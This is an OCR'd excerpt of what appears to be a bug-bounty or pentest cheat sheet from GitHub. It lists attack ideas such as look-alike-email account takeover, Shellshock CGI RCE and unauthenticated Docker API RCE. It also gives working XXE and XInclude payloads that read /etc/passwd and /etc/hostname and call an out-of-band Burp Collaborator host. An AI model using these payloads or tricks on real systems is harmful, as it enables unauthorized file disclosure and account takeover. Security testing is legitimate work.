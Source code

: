 

27  >>>  Evil way to account takeover:
    
                ---> Create Two same look like email 
                        ---> Compsoe email from one mail you will get ticket id for change your email
                        ---> Then go to chat system and contact if email change then vulnerability



28  >>>  Shellshock bash rce for --> file.cgi, cgi-bin


29  >>>  Nginx Range filter overflow 


30  >>>  Adobe coldfusion vulnerabilty --> .cfml , CFIDE  , 


31  >>>  Docker api Unauthenticated rce at port 2275, 2276


32  >>>  Xml external entity and xml tag injection

32(1) >> XInclude attacks :
     
       Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse 
           the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which 
           is then processed by the backend SOAP service.

       In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document 
           and so cannot define or modify a DOCTYPE element. However, you might be able to use XInclude instead. XInclude 
           is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an 
           XInclude attack within any data value in an XML document, so the attack can be performed in situations where you 
           only control a single item of data that is placed into a server-side XML document.

       To perform an XInclude attack, you need to reference the XInclude namespace and provide the path to the file that 
           you wish to include. For example:
           
           
           
      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
          
       You can use below payload , when entit is not accepted

       <ybp xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://a1cqa1g0av62cr8djc1k4s96dxjq7j97av2iz6o.burpcollaborator.net/foo"/></ybp>   
          
          XXE with file upload 
          
          Create a local SVG image with the following content:
          
          <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
          